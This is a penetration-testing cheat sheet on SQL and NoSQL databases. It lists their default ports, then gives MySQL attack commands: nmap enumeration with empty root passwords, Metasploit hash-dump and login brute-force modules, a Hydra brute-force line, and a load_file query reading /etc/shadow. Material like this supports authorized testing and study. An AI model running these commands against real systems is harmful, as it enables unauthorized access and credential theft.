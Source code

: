 ```yaml
---
description: >-
  Structured Query Language (SQL) is a standardized programming language that is
  used to manage relational databases and perform various operations on the data
  in them.
---
```


# SQL

{% hint style="info" %}
### Relational databases default ports <a href="#relational-databases" id="relational-databases"></a>
{% endhint %}

| Database               | Port(s)    | Doc                                                                                     |
| ---------------------- | ---------- | --------------------------------------------------------------------------------------- |
| MaxDB                  | 7210       | [Doc](http://maxdb.sap.com/doc/7\_7/44/bf820566fa5e91e10000000a422035/content.htm)      |
| **MySQL**              | 3306       | [Doc](https://dev.mysql.com/doc/refman/5.7/en/security-guidelines.html)                 |
| Oracle DB              | 1521, 1830 | [Doc](https://docs.oracle.com/cd/B19306\_01/network.102/b14213/protocoladd.htm#i470539) |
| **PostgreSQL**         | 5432       | [Doc](https://www.postgresql.org/docs/9.1/static/runtime-config-connection.html)        |
| **SQL Server (MSSQL)** | 1433, 1434 | [Doc](https://msdn.microsoft.com/de-ch/library/cc646023.aspx)                           |

{% hint style="info" %}
### NoSQL databases and other data stores  default ports <a href="#nosql-databases-and-other-data-stores" id="nosql-databases-and-other-data-stores"></a>
{% endhint %}

| Database      | Port(s)                    | Doc                                                                                                  |
| ------------- | -------------------------- | ---------------------------------------------------------------------------------------------------- |
| Cassandra     | 7000, 7001, 9042           | [Doc](https://cassandra.apache.org/doc/latest/faq/index.html#what-ports)                             |
| CouchDB       | 5984                       | [Doc](http://docs.couchdb.org/en/2.0.0/config/http.html)                                             |
| Elasticsearch | 9200, 9300                 | [Doc](https://www.elastic.co/guide/en/elasticsearch/guide/current/\_talking\_to\_elasticsearch.html) |
| **MongoDB**   | 27017, 27018, 27019, 28017 | [Doc](https://docs.mongodb.com/v3.2/reference/default-mongodb-port/)                                 |
| Neo4J         | 7473, 7474                 | [Doc](https://neo4j.com/docs/stable/tools-webadmin.html)                                             |
| **Redis**     | 6379                       | [Doc](https://redis.io/topics/quickstart)                                                            |

## Enum

<pre class="language-bash"><code class="lang-bash"># Default scan
nmap $IP -sV -p 3306 

# Empty password script
nmap $IP -sV -p 3306 --script=mysql-empty-password

<strong># Get Mysql info
</strong>nmap $IP -sV -p 3306 --script=mysql-info

# Get mysql users
nmap $IP -sV -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"

<strong># Get mysql databases
</strong>nmap $IP -sV -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"

# Get mysql variables
nmap $IP -sV -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"

# mysql audit
nmap $IP -sV -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

# Try to connect directly without a password
mysql -h $IP -u root

# Run query
nmap $IP -sV -p 3306 --script=mysql-query --script-args="query='select count(*) from books.authors;',mysqluser='root',mysqlpass=''"

# Metasploit way
msfconsole
set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
setg rhosts $IP
set verbose false
run

## Hashdump
msfconsole
use auxiliary/scanner/mysql/mysql_hashdump 
setg rhosts $IP
set username root
set password ""
run</code></pre>

#### Manipulate local files via db

```sql
# connect to instance
mysql -h $IP -u root

# read local file
select load_file("/etc/shadow");


```

## Bruteforce

```bash
# Metasploit way
msfconsole
use auxiliary/scanner/mysql/mysql_login
setg rhosts $IP
set verbose false
set stop_on_success true
set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set username root
run

# Hydra
hydra -l root -P  /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $IP mysql
```
